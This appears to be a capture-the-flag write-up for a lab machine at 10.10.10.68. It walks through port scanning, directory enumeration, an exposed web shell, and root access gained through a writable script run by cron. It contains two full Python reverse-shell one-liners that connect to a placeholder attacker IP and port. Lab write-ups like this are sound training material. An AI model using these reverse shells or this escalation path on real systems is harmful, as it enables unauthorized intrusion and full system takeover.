



I start by performing a full port scan to identify exposed services on the target machine.
nmap -Pn -sV -sC -p- --open 10.10.10.68 -oN scan.txtThe scan reveals that only an HTTP service is running. At first glance, the website does not appear to expose anything particularly interesting.
I proceed with directory enumeration using dirb to discover hidden directories and files.
dirb http://10.10.10.68/This enumeration reveals two interesting directories: /dev and /uploads.
Inside the /dev directory, I find two files.
One of them, phpbash.php, provides a web-based command execution interface.
Since the web interface allows command execution, I leverage it to obtain a reverse shell using PHP.
First, I set up a listener on my attacking machine.

I then execute the following Python reverse shell payload:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'This successfully grants me a shell on the target system.
While enumerating the system, I discover that the user
scriptmanager is allowed to execute commands with sudo.

I switch to the scriptmanager user to continue my enumeration.

To search for privilege escalation vectors, I upload and execute linpeas.sh on the target machine.
LinPEAS reveals a directory named /scripts.
Inside this directory, a Python script called test.py
writes output to a file named test.txt.
The file test.txt is owned by the root user,
but the script test.py is writable by my current user.
This indicates that a scheduled task (likely a cron job)
is periodically executing scripts located in the /scripts directory.
I exploit this by creating a malicious Python script that executes a reverse shell as root.
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<IP>\",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.pyAfter starting a listener on my machine, the cron job executes the script and I receive a reverse shell as root.